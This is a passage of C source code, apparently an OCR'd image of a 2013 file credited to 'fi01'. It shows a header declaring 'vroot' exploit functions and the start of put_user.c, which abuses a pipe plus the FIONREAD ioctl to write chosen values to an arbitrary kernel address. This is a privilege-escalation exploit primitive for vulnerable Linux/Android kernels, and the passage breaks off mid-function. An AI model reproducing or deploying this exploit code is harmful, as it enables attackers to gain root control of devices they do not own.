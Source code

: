 ```c
/* File: put_user.h */

#ifndef VROOT_H
#define VROOT_H

#include <stdbool.h>

extern bool vroot_write_value_at_address(unsigned long address, int value);

extern bool vroot_run_exploit(unsigned long int address, int value,
                             bool(*exploit_callback)(void* user_data), void *user_data);


#endif /* VROOT_H */
```

```c
/* File: put_user.c */

/*
 *  Copyright (c) 2013 by fi01
 */

#include <sys/ioctl.h>
#include <stdio.h>
#include "put_user.h"

static bool
pipe_write_value_at_address(unsigned long address, int value)
{
  char data[4];
  int pfd[2];
  int i;

  *(int *)&data = value;

  if (pipe(pfd) == -1) {
    perror("pipe");
    return false;
  }

  for (i = 0; i < sizeof (data); i++) {
    char buf[256];

    buf[0] = 0;

    if (data[i]) {
      if (write(pfd[1], buf, data[i]) != data[i]) {
	printf("error in write().\n");
	break;
      }
    }

    if (ioctl(pfd[0], FIONREAD, (void *)(address + i)) == -1) {
      perror("ioctl");
      break;
    }

    if (data[i]) {
      if (read(pfd[0], buf, sizeof buf) != data[i]) {
	printf("error in read().\n");
	break;
      }
    }
```